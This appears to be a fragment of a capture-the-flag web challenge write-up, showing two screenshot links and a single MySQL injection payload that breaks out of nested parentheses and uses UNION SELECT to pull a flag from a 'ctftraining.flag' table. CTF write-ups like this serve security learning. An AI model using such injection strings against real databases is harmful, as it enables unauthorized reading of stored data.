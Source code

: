 ![image-20230514003614532](Web_Writeup/image-20230514003614532.png)

```mysql
-1)))))) union select (select flag from ctftraining.flag),2#
```

![image-20230514003655483](Web_Writeup/image-20230514003655483.png)

彩蛋egg~

